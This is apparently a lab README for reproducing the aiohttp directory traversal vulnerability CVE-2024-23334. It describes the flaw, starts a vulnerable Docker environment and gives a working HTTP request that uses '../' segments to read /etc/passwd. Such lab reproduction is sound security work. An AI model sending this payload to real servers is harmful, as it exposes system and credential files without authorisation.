

# aiohttp Directory Traversal Vulnerability (CVE-2024-23334)

[中文版本(Chinese version)](README.zh-cn.md)

aiohttp is an asynchronous HTTP client/server framework for asyncio and Python.
When using aiohttp as a web server and configuring static routes, it is necessary to specify the root path for static files. Additionally, the option 'follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory.When 'follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even when symlinks are not present. The affected versions include 3.9.1 and earlier.

References:

- [NVD - CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)

- [aiohttp Directory Traversal Vulnerability (CVE-2024-23334 Analysis)](https://www.venustech.com.cn/new_type/aqldfx/20240401/27962.html)

## Environment Setup

Execute the following command to start a aiohttp server v3.9.1:

```
docker compose up -d
```

After the server starts, the web page can be accessed by visiting `http://your-ip:8080/` in a browser.

## Vulnerability Reproduction

This vulnerability can be exploited by crafting a malicious path to access arbitrary files on the server.

For example, to view the system file /etc/passwd, send the following request:

```
GET /static/../../../../../etc/passwd HTTP/1.1
Host: your-ip:8080
Content-Length: 2
```



If successful, you will see the contents of `/etc/passwd`. which proves that the vulnerability exists.
